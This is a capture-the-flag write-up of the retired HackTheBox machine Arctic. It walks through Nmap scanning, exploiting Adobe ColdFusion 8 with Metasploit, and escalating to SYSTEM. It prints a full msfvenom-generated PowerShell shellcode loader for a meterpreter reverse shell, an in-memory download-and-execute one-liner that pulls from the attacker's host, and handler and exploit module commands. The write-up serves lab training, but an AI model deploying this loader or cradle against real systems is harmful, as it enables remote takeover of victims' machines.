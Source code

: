```yaml
---
title: HTB Machine Arctic May 2025
published: 2025-05-15
description: Writeup of HTB Arctic Machine.
tags: [B2R, HTB, Easy, Retired, Windows, Metasploit, Adobe ColdFusion]
image: "images/cover.png"
category: HTB Machine Writeups
draft: false
---
```


# Scanning 

## Nmap 

- Ports Open

```python
Discovered open port 135/tcp on 10.10.10.11 (Remote Procedure Call (RPC))
Discovered open port 8500/tcp on 10.10.10.11 # Don't know what it is
Discovered open port 49154/tcp on 10.10.10.11 (Remote Procedure Call (RPC))
```

- Full Scan

```bash
# Nmap 7.94SVN scan initiated Wed May 14 15:27:15 2025 as: nmap -sC -sV -vvv -T5 -oA nmap/initials -Pn 10.10.10.11
Nmap scan report for 10.10.10.11 (10.10.10.11)
Host is up, received user-set (0.19s latency).
Scanned at 2025-05-14 15:27:16 IST for 170s
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE REASON  VERSION
135/tcp   open  msrpc   syn-ack Microsoft Windows RPC
8500/tcp  open  fmtp?   syn-ack
49154/tcp open  msrpc   syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 14 15:30:06 2025 -- 1 IP address (1 host up) scanned in 171.15 seconds
```

# Enumeration

- Web Server (Adobe ColdFusion web server)

![Pasted image 20250514155330.png](images/Pasted_image_20250514155330.png)
![Pasted image 20250514155550.png](images/Pasted_image_20250514155550.png)
- Adobe ColdFusion 8 Login Panel 

![Pasted image 20250514155934.png](images/Pasted_image_20250514155934.png)

# Exploitation

## Metasploit Stuff

- Trying 1st Payload using Metasploit

![Pasted image 20250514161334.png](images/Pasted_image_20250514161334.png)
![Pasted image 20250514161446.png](images/Pasted_image_20250514161446.png)
![Pasted image 20250514161504.png](images/Pasted_image_20250514161504.png)
- But Failed!!!!!!!!!!!

- Started Debugging Using Burp with Proxy and found one problem: Metasploit only waits for 5 sec and then it gives error and shuts the listener, but this exploit takes 20 to 30 sec for getting shell. So we have to forward the POST request to proxy and take it into repeater, then shut the Metasploit listener off and start a netcat listener with the same port and send the request through repeater. Then we got the shell.  

![Pasted image 20250514163820.png](images/Pasted_image_20250514163820.png)
- Now the problem is that I have a normal user/service shell which is kind of primitive in nature and we need a meterpreter shell. So for that, we use msfconsole to create another PowerShell payload which will be invoked from the shell we got.

- After Creating that, we transport it to the victim machine using a Python HTTP server and invoke it directly in memory without leaving a file on disk. 

- This is not that easy because Defender keeps removing it, so this is just the success part, although you can see the number of attempts. 😗

- Creating Shell.ps1

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.10 LPORT=1337 -f psh -o shell.ps1
```

- Payload: shell.ps1

```powershell
$xVgZtpUmbJgsKj = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

$JoDMBHBRFCPbBq = Add-Type -memberDefinition $xVgZtpUmbJgsKj -Name "Win32" -namespace Win32Functions -passthru

[Byte[]] $oYFigiQwf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x51,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0xf,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x4d,0x31,0xc9,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x5,0x39,0xa,0xa,0x10,0xa,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0x49,0xff,0xce,0x75,0xe5,0xe8,0x93,0x0,0x0,0x0,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,0xc9,0x6a,0x4,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41,0x59,0x68,0x0,0x10,0x0,0x0,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,0x41,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,0x31,0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x0,0x40,0x0,0x0,0x41,0x58,0x6a,0x0,0x5a,0x41,0xba,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,0x3c,0xff,0xff,0xff,0x48,0x1,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,0xff,0xe7,0x58,0x6a,0x0,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5


$XQXihJenTp = $JoDMBHBRFCPbBq::VirtualAlloc(0,[Math]::Max($oYFigiQwf.Length,0x1000),0x3000,0x40)

[System.Runtime.InteropServices.Marshal]::Copy($oYFigiQwf,0,$XQXihJenTp,$oYFigiQwf.Length)

$JoDMBHBRFCPbBq::CreateThread(0,0,$XQXihJenTp,0,0,0)
```

- Transporting Shell.ps1

```powershell
powershell -Command 
"$c=new-object net.webclient;
iex $c.downloadstring('http://10.10.16.10:8000/shell.ps1')"
```

- Metasploit Payload and Instance

```
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.16.10
set lport 1337
run
```

![Pasted image 20250515100848.png](images/Pasted_image_20250515100848.png)
![Pasted image 20250515101211.png](images/Pasted_image_20250515101211.png)
- And we got our first flag!!

```lua
27c8ead73af56159c49fec2e895bda01
```

# Post Exploitation

## Again Metasploit Stuff

- Now comes the post exploitation part, so for that we used Metasploit's default suggester which gives potential modules.

![Pasted image 20250515101511.png](images/Pasted_image_20250515101511.png)
```
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

![Pasted image 20250515102031.png](images/Pasted_image_20250515102031.png)
- These are x86 version meterpreter exploits but we want x64 version, so we have to migrate to an x64 process to do this.
- And for this, we have used the conhost.exe process.

![Pasted image 20250515102505.png](images/Pasted_image_20250515102505.png)
- Now after doing the same exploit suggester, we found this to be vulnerable. So we used it and got the system shell. 👍

```
use exploit/windows/local/ms10_092_schelevator
set SESSION 1
set lhost 10.10.16.10
```

![Pasted image 20250515103152.png](images/Pasted_image_20250515103152.png)
![Pasted image 20250515103249.png](images/Pasted_image_20250515103249.png)
- And finally got the root shell.

![Pasted image 20250515103722.png](images/Pasted_image_20250515103722.png)
```lua
960b5b48915c3d781eb275a5f8965e6f
```